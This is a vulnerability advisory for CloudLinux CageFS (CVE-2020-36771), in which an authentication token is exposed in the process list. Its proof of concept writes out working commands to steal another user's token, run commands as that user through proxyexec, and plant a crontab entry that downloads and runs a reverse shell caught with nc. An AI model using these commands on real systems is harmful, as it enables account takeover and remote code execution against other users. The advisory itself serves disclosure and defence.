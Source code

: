 # CloudLinux CageFS Token Disclosure #

## Vulnerability Overview ##

CloudLinux CageFS 7.1.1-1 or below passes the authentication token as a
command line argument. In some configurations this allows local users to
view the authentication token via the process list and gain code execution
as another user.

* **Identifier**            : SBA-ADV-20200707-01
* **Type of Vulnerability** : Invocation of Process Using Visible Sensitive Information
* **Software/Product Name** : [CloudLinux CageFS](https://www.cloudlinux.com/)
* **Vendor**                : CloudLinux Inc.
* **Affected Versions**     : <= 7.1.1-1
* **Fixed in Version**      : 7.1.2-2
* **CVE ID**                : CVE-2020-36771
* **CVSS Vector**           : CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
* **CVSS Base Score**       : 7.8 (High)

## Vendor Description ##

> CloudLinux OS is the leading platform for multitenancy. It improves
> server stability, density, and security by isolating each tenant and
> giving them allocated server resources. This creates an environment
> that feels more like a virtual server than a shared hosting account.
> By doing so, CloudLinux OS reduces operating costs and churn rates,
> and increases profitability.

Source: <https://www.cloudlinux.com/>

## Impact ##

If the `lve_namespaces` service or the virtualized proc filesystem
feature is disabled, a local user can obtain the CageFS authentication
token of other users by exploiting the vulnerability documented in this
advisory. In most configurations this allows attackers to gain code
execution as those users.

## Vulnerability Description ##

CloudLinux offers a feature called proxy commands in CageFS environments.
It allows limited execution of commands outside the CageFS environment from
a user restricted within the CageFS envinronment.

For this purpose a CageFS daemon runs outside of the CageFS environment,
it is accessible via a UNIX socket from within the CageFS environment.
The UNIX socket is handled by `proxyexec`. To make the whole process of
calling a tool outside of the CageFS transparent to the user, wrapper
scripts are placed within CageFS, which in turn call `proxyexec` for
execution of the commands outside of the CageFS environment.

Those wrapper scripts read the CageFS token from `/var/.cagefs/.cagefs.token`
and pass it to the `proxyexec` command as a command line argument.

CloudLinux by default enables the virtualized proc filesystem, which
prevents other users from seeing the CageFS token within the process
list. However, if the `lve_namespaces` service is disabled, e.g. the
systemd unit is masked out, or the virtualized proc filesystem is
explicitly disabled, other users can see the CageFS token within the
process list. They can use the CageFS token of other users to talk to
the CageFS daemon via `proxyexec` and the CageFS daemon executes the
commands with the privileges of the supplied authentication token.

## Proof of Concept ##

Let's assume, the `lve_namespaces` service is disabled and we are user
`ftp2406151`:

```sh
$ id
uid=935(ftp2406151) gid=935(site2406151) groups=935(site2406151)
```

We list the process list and find another user executing `ping example.org`:

```sh
$ ps aux | grep proxyexec
 2094 root      0:00 /usr/sbin/proxyexec -q -d -s /var/lib/proxyexec/cagefs.sock/socket /bin/cagefs.server
1180646 934       0:00 /usr/sbin/proxyexec -c cagefs.sock ftp1488781 EjlVbSK63ye6dtHs / PING 1180642 example.org
1180647 root      0:00 /usr/sbin/proxyexec -q -d -s /var/lib/proxyexec/cagefs.sock/socket /bin/cagefs.server
1181229 ftp24061  0:00 grep proxyexec
```

We now can execute commands as user `ftp1488781` and, for example, view
the crontab:

```sh
$ /usr/sbin/proxyexec -c cagefs.sock ftp1488781 EjlVbSK63ye6dtHs / CRONTAB_LIST 0
no crontab for ftp1488781
```

Now we setup a new crontab entry, which downloads a reverse shell and
executes it every minute:

```sh
$ echo '* * * * * wget -q -O rshell https://www.example.org/rshell && chmod +x rshell && nohup ./rshell &' | /usr/sbin/proxyexec -c cagefs.sock ftp1488781 EjlVbSK63ye6dtHs / CRONTAB_SAVE 0
```

```sh
$ /usr/sbin/proxyexec -c cagefs.sock ftp1488781 EjlVbSK63ye6dtHs / CRONTAB_LIST 0
* * * * * wget -q -O rshell https://www.example.org/rshell && chmod +x rshell && nohup ./rshell &
```

Our shell connects back to us and we can execute arbitrary commands as
the other user:

```sh
$ nc -l -p 1234
id
uid=934(ftp1488781) gid=934(site1488781) groups=934(site1488781)
```

## Recommended Countermeasures ##

We recommend to avoid passing sensitive information as a command line
argument. Instead, `proxyexec` should directly read the CageFS token
from the file `/var/.cagefs/.cagefs.token` and pass it to the CageFS
daemon via the UNIX socket.

## Timeline ##

* `2020-07-07`: identification of vulnerability in version 7.0.6-1
* `2020-07-10`: initial vendor contact
* `2020-07-13`: initial vendor response
* `2020-07-13`: disclosed vulnerability to vendor security contact
* `2020-09-02`: vendor released version 7.1.2-2 to testing
* `2020-09-28`: vendor released version 7.1.2-2 to production
* `2020-10-02`: request CVE from MITRE
* `2022-01-04`: MITRE declined request as it falls in the scope of Red Hat
* `2024-01-19`: request CVE from Red Hat
* `2024-01-22`: Red Hat assigned CVE-2020-36771
* `2024-01-25`: public disclosure

## References ##

* CloudLinux OS Documentation. Virtualized /proc filesystem: <https://docs.cloudlinux.com/shared/cloudlinux_os_kernel/#virtualized-proc-filesystem>
* CageFS 7.1.2-2 beta: <https://blog.cloudlinux.com/beta-cagefs-lve-wrappers-and-bsock-updated>
* CageFS 7.1.2-2 production: <https://blog.cloudlinux.com/cagefs-lve-wrappers-and-bsock-have-been-rolled-out-to-100>

## Credits ##

* David Lisa Gnedt ([SBA Research](https://www.sba-research.org/))
